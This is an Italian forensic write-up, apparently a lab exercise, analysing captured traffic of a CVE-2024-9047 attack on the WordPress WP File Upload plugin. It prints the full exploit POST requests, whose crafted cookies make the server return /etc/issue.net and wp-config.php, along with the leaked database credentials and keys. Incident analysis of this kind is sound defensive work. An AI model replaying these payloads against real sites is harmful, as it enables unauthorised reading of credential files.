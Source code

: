 # CVE-2024-9047 - (58.16.78.90 -> 192.168.100.101:80)

Flussi TCP confermano un’azione potenzialmente malevola da parte di un attore che cerca di ottenere infomrazioni sul plugin WP File Upload. Sono state fatte ulteriori analisi per veriicahe che se questo fosse un tentativo di sfruttare  volnuberati note al plugin WP File Upload.

**When**

| **Evento**                     | **Timestamp** | **TCP Stream** | **Dettagli**                                   |
|--------------------------------|---------------|----------------|----------------------------------------------- |
| Raccolta di infomrazioni       | 22:42:09:94   | 10             | GET /wp-content/plugins/wp-file-upload/                   |
| Exploit del SO                 | 22:43:34:29   | 193             | POST /wp-content/plugins/wp-file-upload/                   |
| Exploit del SO                 | 22:43:43:57   | 215             | POST /wp-content/plugins/wp-file-upload/                   |

**Who/Where**

| **Ruolo**         | **Indirizzo IP**       | **Porta**       |
|--------------------|------------------------|-----------------|
| Attaccante         | 58.16.78.90           | ............    |
| Server compromesso | 192.168.100.101       | 80 (srv-www)    |


**What**

1. L’attaccante ha identificato la presenza del plugin **wp-file-upload** e la sua versione.

```sh
GET /wp-content/plugins/wp-file-upload/css/wordpress_file_upload_style.css?ver=6.8
GET /wp-content/plugins/wp-file-upload/css/wordpress_file_upload_adminbarstyle.css?ver=6.8
GET /wp-content/plugins/wp-file-upload/vendor/jquery/jquery-ui-timepicker-addon.min.js?ver=6.8
```


Risultati:

2. Exploit del SO Ubuntu 22.04.5 LTS

```sh
POST /wp-content/plugins/wp-file-upload/wfu_file_downloader.php HTTP/1.1
Host: www.potenzio.com
User-Agent: python-requests/2.32.3
...
Cookie: wp_wpfileupload_testupload=Nxploited; wfu_storage_file123=/etc/issue.net; wfu_download_ticket_ticket123=9876543210987; wfu_ABSPATH=/
...
file=file123&ticket=ticket123&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_testupload
```
`

3. tcp.stream eq 215 (22:43:43:57)

```sh
POST /wp-content/plugins/wp-file-upload/wfu_file_downloader.php HTTP/1.1
Host: www.potenzio.com
User-Agent: python-requests/2.32.3
....
Cookie: wp_wpfileupload_testupload=Nxploited; wfu_storage_file123=/var/www/html/wp-config.php; wfu_download_ticket_ticket123=9876543210987; wfu_ABSPATH=/
....
file=file123&ticket=ticket123&handler=dboption&session_legacy=1&dboption_base=cookies&dboption_useold=0&wfu_cookie=wp_wpfileupload_testupload
```

File di risposta:

```php
// ** Database settings//

define( 'DB_NAME', 'wpdb' ); /** The name of the database for WordPress */
define( 'DB_USER', 'wp' ); /** Database username */
define( 'DB_PASSWORD', 'secret4wp' ); /** Database password */
define( 'DB_HOST', '10.0.100.100' ); /** Database hostname */
define( 'DB_CHARSET', 'utf8mb4' ); /** Database charset to use in creating database tables. */
define( 'DB_COLLATE', '' ); /** The database collate type. Don't change this if in doubt. */

/**
 * Authentication unique keys and salts.
 */
define( 'AUTH_KEY',         '*&xb-+qX)0]kRKF@-Y  Oig}y6f,QBVws)B:sDUA=yEJK.<;4eJ.Ay~g1EfrX-uI' );
...
```

**How**
L'attaccante ha sfruttato la vulberabilità relativa al plugin File Upload [CVE-2024-9047](https://nvd.nist.gov/vuln/detail/cve-2024-9047)

- Manipolazione della richiesta HTTP
Il client ha inviato una richiesta POST a wfu_file_downloader.php, simulando un'operazione di download legittima. Tuttavia, ha incluso parametri dannosi come wfu_storage_file123=/var/www/html/wp-config.php, forzando il server a restituire il file di configurazione.
- Abuso dei cookie di sessione
Il client ha utilizzato cookie speciali (wp_wpfileupload_testupload=Nxploited) e un ticket di download (wfu_download_ticket_ticket123=9876543210987) per aggirare i controlli di autorizzazione del plugin e ottenere accesso non autorizzato.

**Why**
Esfiltraizone i file di configurazioine del database 


**Filtri Wireshark utilizzati**

```bash
http.request.method == "POST" && http.request.uri contains "/wp-content/plugins/wp-file-upload/"
```























## Risultati

Possiamo conferare che è stat sfruttata la vulnerabilita
[CVE-2024-9047](https://nvd.nist.gov/vuln/detail/cve-2024-9047)

- Manipolazione della richiesta HTTP
Il client ha inviato una richiesta POST a wfu_file_downloader.php, simulando un'operazione di download legittima. Tuttavia, ha incluso parametri dannosi come wfu_storage_file123=/var/www/html/wp-config.php, forzando il server a restituire il file di configurazione.
- Abuso dei cookie di sessione
Il client ha utilizzato cookie speciali (wp_wpfileupload_testupload=Nxploited) e un ticket di download (wfu_download_ticket_ticket123=9876543210987) per aggirare i controlli di autorizzazione del plugin e ottenere accesso non autorizzato.






